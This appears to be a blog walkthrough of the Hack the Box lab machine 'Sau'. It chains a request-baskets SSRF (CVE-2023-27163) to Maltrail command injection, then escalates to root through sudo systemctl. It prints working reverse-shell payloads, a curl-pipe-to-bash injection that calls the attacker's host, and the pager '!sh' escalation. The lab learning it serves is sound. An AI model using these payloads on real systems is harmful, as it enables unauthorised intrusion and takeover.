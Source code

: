 +++
author = "Nick"
categories = ["hack the box", "Easy"]
date = 2023-04-29T11:00:00.000Z
publishDate = 2023-04-29T11:00:00.000Z
description = " "
summary = " "
draft = false
slug = "hack-the-box-sau"
tags = ["hack the box", "Easy", "Linux", "SSRF", "Burpsuite", "OS Command Injection", "Maltrail", "CVE-2023-27163", "Request Basket"]
title = "Hack the Box - Sau"
url = "/hack-the-box-sau"
thumbnail = "/images/sau/logo.png"
+++

Welcome back! Today we're going to be doing the Hack the Box machine Sau. This machine is listed as an easy Linux machine. So let's jump and see what we find!

As usual, we start with port scan. I'm a fan of `rustscan`. Here's what we see:

Command:
`rustscan -a 10.129.229.26 -- -sV -sC`

Results:
```
pen  ssh     syn-ack
55555/tcp open  unknown syn-ack
```

Well then, a small vector here. Let's see what's being hosted on `55555`. Taking a look via web browser we see an interesting interface. 

![](/images/sau/sau1.png)

When we hit the 'create' button, we are given a basket with a token:

![](/images/sau/sau2.png)

Ok, so we have a 'basket' and a token: `X-sgJT8xpQp6OPbenqX7wxy1KbeP3SKPAwTmLT4l0gcl`
(sorry `Burpsuite`, new token is also - `P8YdnUstfyHHALexlcZIWJ1WqXkDrOi_jsNHGiARKf0w`)

Now, looking at the requests via `Burpsuite`, there doesn't seem to be much going on here. What is interesting is that this version of `requests-basket` is on version 1.2.1. [Some quick Googling](https://cve.report/CVE-2023-27163) around shows us there is some `SSRF` action in play here.

Diving into the disclosure - [here](https://notes.sjtu.edu.cn/s/MUUhEymt7) - we can see that all we need to do is craft a request to the proper endpoint and we can potentially escalate ourselves from here. So first we snag a request and send it to `repeater`. Nowe we can modify the request to have our payload:

![](/images/sau/sau3.png)

Next we setup a `netcat` listener on the port we stated in the request.

Command:
`nc -lvnp 6969`

Then we send the request and visit the endpoint / bucket we just created. This gives us a token back. According to the original finder, we need to visit the endpoint to trigger the `SSRF`.

![](/images/sau/sau4.png)

...anndddd our connection back.

![](/images/sau/sau5.png)

Now, we need to repoint this to itself so we can start enumerating internally. The first thing we do is point the `forward_url` value to the `localhost` and see what comes back. Sure enough, we actually get something, but not what I expected!

![](/images/sau/sau6.png)

Another service is actually running on port `80`! This case, we have a `maltrail` instance. Googling about lead me [here](https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87). Looks to be a `unauthenticeated OS Command Injection` available to us. Now for this to work, we see we need to hit the `login` page on that service. So to test if it's even available, we simple change our payload about from the `localhost` to `127.0.0.1:80/login` and see what happens.

![](/images/sau/sau7.png)

Sure enough, we can hit it. Now we need to chain our exploits together. Step one - Create a new basket to post to. Step two create a reverse shell payload to call back to us. First we create a new basket with the `forward_url` set to the `/login` endpoint on the local host. 

![](/images/sau/sau8.png)

We send that request. Next up, start a `netcat` listener on the port we want to catch incoming. 

```
nc -lvnp 6969
```

Now, we need to a reverse shell. We'll use the same PoC as we found, just modified:

```bash
curl 'http://10.129.229.26:55555/trash9' --data 'username=;`bash -i >& /dev/tcp/10.10.14.2/6969 0>&1`'
```

The above didn't work, so a quick work around is to create a script with the command inside of it and curl that file, then pipe it out to bash. Here's our `shell.sh` script:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.2/6969 0>&1"
```

Now we need to serve this file, for that we'll use the Python3 module.

Command:
```
python3 -m http.server 80
```
With that being hosted, we can now send our new `curl` request.

```bash
curl 'http://10.129.229.26:55555/trash9' --data 'username=;`curl 10.10.14.2/shell.sh | bash`'
```

Sure enough, after we let it rip, we see it hit out `Simple HTTP Server` then right after it our `netcat` listener!

![](/images/sau/sau9.png)

We head back to the `home` directory and check for our `user.txt` flag. 

![](/images/sau/user.png)

Next up, enumerate for escalation. A quick `sudo -l` shows us we have access to run some `systemctl` functions. If you've been around the CTF space, Red Team or Pentesting space for a while, you may recognize this one. You can pop over to [GTFO Bins](https://gtfobins.github.io/gtfobins/systemctl/) and find your answer.

So since we have a lame reverse connection, we need to upgrade our `TTY`. A quick and easy fix for this is simple:

```
script /dev/null -c bash
```
NOTE: If we don't upgrade our `TTY`, we wont be able to leverage the following exploit. So make sure you do that, in whatever fashion you like.

Now we can simple run our exploit.

Command:
```bash
sudo /usr/bin/systemctl status trail.service
```
Then we provide the `!sh` option.

![](/images/sau/sau10.png)

There we go, our `root.txt` flag and another box down!